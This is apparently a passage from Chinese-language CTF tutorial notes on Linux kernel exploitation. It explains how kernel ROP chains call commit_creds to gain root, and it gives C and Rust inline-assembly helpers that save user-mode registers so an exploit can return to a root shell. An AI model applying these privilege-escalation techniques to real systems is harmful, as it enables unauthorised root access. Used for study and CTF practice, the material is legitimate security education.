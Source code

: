 ```c
// 何谓乎王道? 曰：大一统也。
```

### 1. Kernel ROP

**内核态的 ROP 与用户态的 ROP 一般无二，只不过利用的 gadget 变成了内核中的 gadget，所需要构造执行的 ropchain 由**`system("/bin/sh")`**变为了** `commit_creds(prepare_kernel_cred(&init_task)) 或 commit_creds(&init_cred)`

当成功执行如上函数之后，当前线程的 cred 结构体便变为 init 进程的 cred 的拷贝，我们也就获得了 root 权限，此时在用户态起一个 shell 便能获得 root shell

- 需要注意的是 **旧版本内核上所用的提权方法 `commit_creds(prepare_kernel_cred(NULL))` 已经不再能被使用，在高版本的内核当中 `prepare_kernel_cred(NULL)` 将不再返回一个 root cred**，这也令 ROP chain 的构造变为更加困难 ：(

### 2.状态保存

通常情况下，我们的exploit需要进入到内核当中完成提权，而我们最终仍然需要**着陆回用户态**以获得一个root权限的shell，因此在我们的exploit进入内核态之前我们需要**手动模拟用户态进入内核态的准备工作**——**保存各寄存器的值到内核栈上**，以便于后续着陆回用户态

通常情况下使用如下函数保存各寄存器值到我们自己定义的变量中，以便于构造 rop 链：

> 算是一个通用的pwn板子
>
> 方便起见，使用了内联汇编，编译时需要指定参数：`-masm=intel`

```c
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```

可是爷一般不用，爷不装了，爷就是传说中的`Rust`传教士（奉天道，灭妖道）（元神启动！）

```rust
fn saveStatus() -> (u64, u64, u64, u64) {
    let mut user_cs: u64;
    let mut user_ss: u64;
    let mut user_sp: u64;
    let mut user_rflags: u64;
    unsafe {
        asm! {
            "mov {user_cs}, cs",
            "mov {user_ss}, ss",
            "mov {user_sp}, rsp",
            "pushf",
            "pop {user_rflags}",
            user_cs = out(reg) user_cs,
            user_ss = out(reg) user_ss,
            user_sp = out(reg) user_sp,
            user_rflags = out(reg) user_rflags,

        };
    }
    (user_cs, user_ss, user_sp, user_rflags)

}


```
